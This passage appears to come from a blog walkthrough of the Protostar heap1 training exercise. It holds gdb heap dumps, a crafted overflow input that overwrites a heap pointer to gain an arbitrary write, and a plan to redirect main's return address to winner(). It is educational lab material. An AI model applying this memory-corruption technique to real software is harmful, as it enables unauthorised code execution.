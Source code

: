 ```
(gdb) info proc map
process 2034
cmdline = '/opt/protostar/bin/heap1'
cwd = '/home/user'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
         0x804a000  0x806b000    0x21000          0           [heap]

... <snip> ...
```

```
(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000
```

To overwrite the `0x0804a038` pointer, we see that we need to write 20 bytes
followed by the memory address where we want the second `strcpy` call to write
to. We confirm this by attempting to write to `0x42424242` which should result
in a segmentation fault.

```
(gdb) run `python -c "print 'A' * 20 + 'BBBB'"` CCCC
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + 'BBBB'"` CCCC

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x42424242 <Address 0x42424242 out of bounds>, src=0xbffff96b "CCCC") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

Now that we can write to an arbitrary address, what and where should we write?
The natural thought here is to overwrite the the return address of `main()` on
the stack with the memory address of `winner()`.


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[protostar-format-writeup]: {% post_url 2018-05-27-protostar-walkthrough-format %}
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap